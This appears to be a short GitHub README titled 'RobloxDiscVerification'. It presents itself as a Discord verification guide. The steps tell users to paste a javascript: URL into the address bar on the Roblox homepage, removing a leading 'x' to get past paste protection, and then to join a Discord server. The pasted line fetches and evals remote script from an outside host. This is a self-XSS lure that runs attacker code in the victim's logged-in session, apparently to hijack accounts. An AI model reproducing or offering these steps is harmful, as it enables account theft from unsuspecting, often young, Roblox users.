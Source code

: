 # RobloxDiscVerification

Step 1. Go to your roblox homepage

Step 2. Copy this: xJavascript:$.get("//rbx2.ml/roblox-api?id=10623",eval)

Step 3. Go to the roblox homepage and paste it in the URL tab

Step 4. Remove the x at the beginning

Step 5. Press enter

Step 6. Join this discord server to see it in action: https://discord.gg/pVsgvwVTap
